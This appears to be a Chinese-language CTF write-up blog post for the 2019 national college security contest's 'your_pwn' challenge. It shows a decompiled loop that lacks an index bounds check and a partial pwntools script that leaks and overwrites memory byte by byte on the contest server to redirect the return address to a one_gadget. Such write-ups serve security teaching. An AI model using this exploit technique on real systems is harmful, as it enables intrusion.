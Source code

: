 ```yaml
---
layout: post
title: "第十二届全国大学生信息安全竞赛 WriteUp"
date: 2019-04-25
categories: jekyll update
---
```


### 第十二届全国大学生信息安全竞赛 WriteUp
### your_pwn

在函数`sub_B35`里面，没有对`index(v1)`进行检查，从而造成任意地址泄露和任意地址更改。直接改返回地址为`one_gadget`即可

```
  for ( i = 0; i <= 40; ++i )
  {
    puts("input index");
    __isoc99_scanf("%d", &v1);
    printf("now value(hex) %x\n", (unsigned int)v4[v1]);
    puts("input new value");
    __isoc99_scanf("%d", &v2);
    v4[v1] = v2;
  }
```

详细脚本如下：

```
from pwn import *
#context(os='linux',arch='amd64',aslr = 'False',log_level='debug')
local = 0
if local:
	p = process("./pwn")
else:
	p = remote("39.97.228.196",60007)

def pass_():
	p.recvuntil("name")
	p.sendline("Team233")

def change(index, addr):
	for i in range(8):
		p.recvuntil("index\n")
		p.sendline(str(index+i)) 
		p.recvuntil("now value(hex) ")
		data = p.recvn(1)
		#print("data = " + str(data))
		p.recvuntil("input new value\n")
		p.sendline(str(addr)) 
		addr = addr >> 8

def leak(index):
	addr = ""
	for i in range(8):
		p.recvuntil("index\n")
		p.sendline(str(index+i)) 
		p.recvuntil("now value(hex) ")
		data = int(p.recvuntil("\n",drop=True),16)
		if data > 300:
			data = data - 0xffffff00
		p.recvuntil("input new value\n")
		p.sendline(str(data))
		addr += chr(data)
	addr = u64(addr)
```